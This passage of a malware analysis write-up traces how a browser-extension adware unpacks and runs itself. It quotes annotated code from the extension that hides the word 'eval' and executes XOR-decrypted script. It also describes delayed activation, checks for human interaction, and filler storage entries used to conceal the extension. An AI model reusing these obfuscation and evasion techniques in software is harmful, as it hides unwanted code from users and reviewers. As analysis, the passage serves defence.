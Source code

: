 > *2.js* contains routines that inject code if the code is run within an IFRAME

### Step 5

Next the `ExRmtSvrCd()` function in *2.js* decrypts the code in `dipLstCd666` (*3.js*) and evaluates it. *3.js* contains another packed script with its string dictionary Base-64 encoded and case/8/9-flipped. This script when unpacked results in *4.js*, which is then evaluated.

[***Scripts/2.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js): [ExRmtSvrCd()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js#L37)  
[***Scripts/3.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/3.js): [Decrypted `dipLstCd666`](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/3.js)

```javascript
// RAIN: More obfuscation of "eval"
var RePlAcMe1, RePlAcMe2 = function (a) { return Object.keys(RePlAcMe1) };
RePlAcMe1 = {
  eate: document.querySelectorAll('*'),
  e: 1,
  lav: 5,
  tob: 'xl=',
  color: setcolor = 1,
  YW: function (a) { return RePlAcMe2() [2].split('').reverse().join('') }
};

function ExRmtSvrCd() {
  var a = repitoff(localVals.dipLstCd666);  // RAIN: XOR again to get 3.js
  if (a && a.includes('svrdpcds')) {
    this[RePlAcMe2()[1] + RePlAcMe1.YW()](a)  // RAIN: Evaluate
  }
}
```

### Step 6

*4.js* now performs a check after 6 days for human interaction. A flag `isHmn1` is set when human interaction occurs either through interaction with an [injected reCAPTCHA](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/recapt.html), or if this doesn't work within 10 days of the install date, an overlay with close and continue buttons is injected which would set the flag upon interaction with the buttons. **This is the first obvious sign of this adware.**

*4.js* also attempts to mask its presence by inserting random variables into `storage.local` and `storage.sync` through `insertRandVarNames()` at Line 49.

> *4.js* contains a large amount of domain name strings. It is too large to be displayed within the GitHub UI, hence line numbers to the functions are given below.

1. [***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `ldExtInsDtInsDt6()` (Line 294)
2. [***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `ldIsHmnRslt()` (Line 352)
3. [***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `ftIsHmn()` (Line 361)
4. [***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `reCapt()` (Line 379)
